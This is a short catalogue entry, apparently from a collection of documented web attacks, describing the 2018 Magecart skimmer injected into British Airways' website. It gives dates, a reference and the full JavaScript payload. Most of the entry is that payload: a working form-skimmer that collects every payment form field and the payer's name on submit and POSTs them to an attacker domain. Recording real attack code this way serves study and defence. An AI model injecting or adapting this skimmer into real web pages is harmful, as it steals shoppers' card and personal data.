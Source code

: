 ```yaml
---
title: British Airways magecart skimmer
date: '2018-09-05'
tags:
  - web
  - supply-chain
  - magecart
  - e-skimmer
---
```


This payload was injected into a JavaScript resource and captured payment data before sending it to a third party URL `https://baways.com/gateway/app/dataprocessing/api` (Malicious/Dead).

The website was affected from August 21, 2018 to September 5, 2018.

- - -

## References

- [Inside the Magecart Breach of British Airways: How 22 Lines of Code Claimed 380,000 Victims](https://www.riskiq.com/blog/labs/magecart-british-airways-breach/)

## Payload

```js
window.onload = function() {
  jQuery(".submitButton").bind("mouseup touchend", function(t) {
    var n = {};    
    jQuery("#paymentForm")
      .serializeArray()
      .map(function(a) {
        n[a.name] = a.value;
      });
    var e = document.getElementById('personPaying').innerHTML;
    n.person = e;
    var t = JSON.stringify(n);
    setTimeout(function() {
      jQuery.ajax({
        type: "POST",
        async: !0,
        url: "https://baways.com/gateway/app/dataprocessing/api",
        data: t,
        dataType: "application/json"
      });
    }, 500);
  });
};
```
